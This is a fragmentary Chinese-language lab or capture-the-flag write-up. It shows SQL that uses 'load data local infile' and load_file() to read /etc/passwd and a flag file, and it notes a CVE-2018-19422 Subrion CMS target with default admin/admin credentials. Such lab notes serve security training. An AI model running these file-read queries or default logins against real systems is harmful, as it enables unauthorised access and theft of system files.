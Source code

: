 ```
CREATE TABLE xxx(data TEXT); 
load data local infile '/etc/passwd' into table  xxx;
select * from xxx;
load data local infile '/flag' into table  xxx;
select * from xxx;
```

![image-20230615114356472](%E9%9D%B6%E5%9C%BA.assets/image-20230615114356472.png)

全是坑。。。。

## CVE-2018-19422 Subrion CMS 4.2.1 存在文件上传漏洞

*靶标介绍：*

Subrion CMS 4.2.1 存在文件上传漏洞

/panel/ admin/admin

select load_file('/flag');
